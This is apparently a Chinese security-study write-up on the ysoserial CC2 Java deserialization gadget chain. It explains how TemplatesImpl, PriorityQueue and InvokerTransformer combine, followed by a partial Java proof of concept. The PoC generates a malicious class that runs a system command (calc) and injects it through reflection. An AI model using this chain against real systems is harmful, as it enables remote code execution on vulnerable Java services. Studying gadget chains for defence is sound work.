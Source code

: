 #### TemplatesImpl 
ysoserial 的 CC2 没有使用 ChainedTransformer，而直接使用了 InvokerTransformer 配合 TemplatesImpl 直接加载恶意类的 bytecode

触发逻辑为：

- 创建恶意的 TemplatesImpl 对象，写入 _bytecodes、_name 属性，完成调用 newTransformer 方法触发恶意类的实例化的条件
- 创建 PriorityQueue，由于 TemplatesImpl 不是 Comparable 对象，需要反射将恶意的 TemplatesImpl 对象写入到 PriorityQueue 的 queue 中
- 使用 InvokerTransformer （调用被装饰对象的 newTransformer 方法）创建 TransformingComparator ，并将其赋予到 PriorityQueue 中

POC：
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class cc2_2 {
    public static void main(String[] args) throws Exception{
        // 读取恶意类 bytes[]
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        //返回默认的类池
        ClassPool classPool=ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        //创建一个新的public类
        CtClass payload=classPool.makeClass("CommonsCollections222");
        //设置前面创建的CommonsCollections222类的父类为AbstractTranslet
        payload.setSuperclass(classPool.get(AbstractTranslet));
        //创建一个空的类初始化，设置构造函数主体为runtime
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
	    //转换为byte数组
        byte[] bytes=payload.toBytecode();

        // 初始化 PriorityQueue
        PriorityQueue<Object> queue = new PriorityQueue<>(2);
        queue.add("1");
        queue.add("2");
        
        // 初始化 TemplatesImpl 对象
        TemplatesImpl tmpl = new TemplatesImpl();
        Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(tmpl, new byte[][]{bytes});
        // _name 不能为空
        Field name = TemplatesImpl.class.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmpl, "name");

        Field field = PriorityQueue.class.getDeclaredField("queue");
        field.setAccessible(true);
        Object[] objects = (Object[]) field.get(queue);
        objects[0] = tmpl;

        // 用 InvokerTransformer 来反射调用 TemplatesImpl 的 newTransformer 方法
        // 这个类是 public 的，方便调用
        Transformer transformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});
```